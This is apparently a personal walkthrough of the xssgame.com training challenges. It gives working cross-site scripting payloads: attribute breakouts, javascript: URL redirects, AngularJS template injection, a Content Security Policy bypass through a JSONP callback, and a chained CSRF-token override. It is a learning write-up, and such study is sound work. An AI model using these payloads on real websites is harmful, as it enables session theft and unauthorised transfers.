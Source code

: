 # XSS Notes

* pretty much like sql injection but for html/js
* when DOM is updated dynamically, try using HTML5 events (`autofocus onfocus="alert()"` is a dope hack)
* Use this snippet to pause before page redirects: `window.addEventListener("beforeunload", function() { debugger; }, false)`

## xssgame.com Answers

### 1: Plain JS Foogle

A simple search tool that just displays a message that `Sorry, no results were found for <b> {{user input}} </b>`. just query for `<script>alert()</script>` and the JS will get inserted as-is
### 2: Timer

HTML has `onload="startTimer('<user input>');"`. pass in `1');alert('1` so that html looks like `onload="startTimer('1');alert('1');`

### 3: Cat Gallery

In `chooseTab()`, html is built dynamically: `html += "<img src='/static/img/cat" + name + ".jpg' />";` update url fragment with:
```
1.jpg' onload="alert()" onerror="alert()" type='/static/img/cat
```
 such that html looks like 
 
```
html += "<img src='/static/img/cat" + "1.jpg' onload="alert()" onerror="alert(123)" type='/static/img/cat" + ".jpg' />
```
* Note: This is kinda finicky - sometimes it works and sometimes the app returns an error: `You executed an alert, but the server side validation of your solution failed.`

### 4: Google Reader

the email input is a red herring, and the interstitial redirect page is where its at. the signup page's submit button redirects to `/confirm?next=welcome` and the interstitial page runs `setTimeout(() => window.location = '<user input>'`. this takes advantage of the fact that you can type `javascript:<js code>` in the address bar to run the JS: 

`{{ url }}/confirm?next=javascript:alert()`

### 5: Angular JS Foogle

Turns out this one is quite simple. Apparantly manually setting the value on a form field is an XSS attack vector in AngularJS (or if it limited to calling functions defined on `$scope`? im thinking this is unlikely and  can't get `{{query=10}}` to work, but the `$scope.alert = window.alert;` line is suspicious). So looking at the page's HTML and JS, we can see that there are 3 form fields: `query`, `utm_compaign`, and `utm_term`. the `query` field is handled by `ngModel` as opposed to manual JS, so that leaves the `utm_compaign` and `utm_term` fields - both of which accept input from query params using the same name. simply passing `{{alert()}}` as the value for a `utm_term` or `utm_campaign` param should work:

`{{ url }}/?utm_term={{alert()}}`

Not sure why a sandbox escape exploit didnt work here:
~~A quick look at the page source indicates we are using Angular v1.5.8. We can look up vulnerabilities for that version of angular and inject them appropriately. According to the PortSwigger XSS cheatsheet, we can use `{{x={'y':''.constructor.prototype};x['y'].charAt=[].join;$eval('x=alert(1)');}}`.~~

### 6: Angular JS (1.2) Foogle

playing around a bit, you can see that the form's `action` url submits to itself and gets updated with each url change. we can try the previous payload here using a `query` query param:

`{{ url }}/?query={{alert()}}`

and we see that the form url has updated:

`<form action="/f/rWKWwJGnAeyi/?query=alert()}}" ...>`

but it dropped the leading `{{` in the payload. We can try url encoding, but no dice. but if we try html escaping by looking up character references [here](https://dev.w3.org/html5/html-author/charref), we see that `&lcub;` is an escaped `{`, so we can try a new payload:

`{{ url }}/?query=&lcub;&lcub;alert()}}`

and it works!

### 7: Content Security Policy Blog

First, since this is a CSP challenge, lets check the CSP in the headers:

`content-security-policy: default-src https://www.xssgame.com/f/wmOM2q5NJnZS/ https://www.xssgame.com/static/`

By poking around, we can see that cycling through the tabs updates a `menu` query param. it also sends us back a small JSON snippet that contains the page title. the param values have trailing `=` so its a safe bet that they are b64 encoded, and if we decode them we see they are indeed. passing in a dummy value takes us to a page that says `Error, no such menu : <user input>`. if we browse the source code, we can see that the page takes the title and injects it into the page. if we try encoding `<script>alert()</script>` and passing the encoded value as the `menu` query param we get our first useful error in the dev console (Chrome):

`?menu=PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+`

> Refused to execute inline script because it violates the following Content Security Policy directive: "default-src https://www.xssgame.com/f/wmOM2q5NJnZS/ https://www.xssgame.com/static/". Either the 'unsafe-inline' keyword, a hash ('sha256-S8S/VNmXuUuoIR6OhqBqwIiIkuCxXq31hCCHAHnicV8='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.

Reading through [this article](https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d#8dc8) is helpful and gives good context of the problem to tackle. Though Scenario 6 mentions that `jsonp` endpoints can be an attack vector.. reading through the following (and the linked links) is really helpful to get a better understanding of what/how/why `jsonp` works:
* https://stackoverflow.com/questions/2067472/what-is-jsonp-and-why-was-it-created
* https://en.wikipedia.org/wiki/JSONP

it seems the `/jsonp` endpoint that serves the json snippet could be significant. We can pass a `callback=someString` query param to the `/jsonp` endpoint ro speficy the name of the callback we want the server to send back:
```
{{ url }}/jsonp?menu=cats&callback=alert

// returns: alert({"title":"Cats","pictures":["cat2.jpg","cat3.jpg"]})
```

The solution is to take advantage of the `jsonp` endpoint and the error page. if we construct a payload and leverage the endpoint to inject a script tag into the error page, we should be golden:

`<script src="jsonp?callback=alert()"></script>`

then base64 encode it and set it as the `menu` query param:

`{{ url }}/?menu=PHNjcmlwdCBzcmM9Impzb25wP2NhbGxiYWNrPWFsZXJ0KCkiPjwvc2NyaXB0Pg==`

### 8: CSRF bank transfer

> This challenge demonstrates many web security concepts such as CSP, Cross Site Request Forgery Tokens and Self-XSS.

Poking around in this challenge reveals a couple of interesting flows:

* the `amount` query param is XSS vulnerable with a simple `<script>alert()</script>` - though this is not enough for this challenge
* the Set Username flow is interesting - the main challenge page `{{ url }}/index` and submitting a new username hits this endpoint: 
```
/set?name=name&value={{ submitted name }}&redirect=index
```
2 possible things here:  
  * the `name` query param doesnt seem to be a vector for anything? its just there as a static param 
  * we can probably use the `redirect` param to actually submit the xss payload to bypass the CSP policy

Lets give this a shot. First lets see what the XSS payload would look like:
```
/transfer?name=bob&amount=<script>alert()<script>&csrf_token=RXA3MJYFAA
```

now lets combine the 2:
```
/set?name=name&value=the_hacker&redirect=transfer?name=bob&amount=<script>alert()<script>&csrf_token=RXA3MJYFAA
```
After URL encoding the `redirect` param:
```
/set?name=name&value=the_hacker&redirect=transfer%3Fname%3Dbob%26amount%3D%3Cscript%3Ealert()%3Cscript%3E%26csrf_token%3DRXA3MJYFAA
```

Bummer, we get an issue with the csrf token. Lets backtrack and see if there is a way to define the token ourselves.. The original `/set` endpoint takes a `name` param, lets see what happens if we try other form fields:  
* `/set?name=amount&value=12345&redirect=index` doesnt seem to do anything 
* `/set?name=csrf_token&value=12345&redirect=index` updates the value for the hidden form field! 

Cool, lets try again:

```
/set?name=csrf_token&value=12345&redirect=transfer?name=bob&csrf_token=12345&amount=<script>alert()</script>
```
After URL encoding the `redirect` param:
```
/set?name=csrf_token&value=12345&redirect=transfer%3Fname%3Dbob%26amount%3D%3Cscript%3Ealert()%3C%2Fscript%3E%26csrf_token%12345
```

Success!